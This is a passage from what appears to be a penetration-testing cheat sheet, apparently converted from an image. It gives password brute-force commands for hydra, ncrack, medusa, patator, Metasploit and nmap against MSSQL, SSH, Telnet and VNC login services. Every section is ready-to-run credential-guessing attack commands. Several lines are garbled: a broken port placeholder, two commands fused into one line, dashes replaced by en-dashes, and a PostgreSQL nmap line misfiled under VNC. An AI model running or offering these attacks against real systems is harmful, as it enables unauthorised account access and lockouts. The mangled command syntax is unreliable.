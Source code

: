 ```
msf> use auxiliary/scanner/mssql/mssql_login #Be carefull, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT
```
## SSH
```
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
```
## Telnet
```
hydra -l root -P passwords.txt [-t 32] <IP> telnet
ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet
```
## VNC
```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc
ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T
patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```

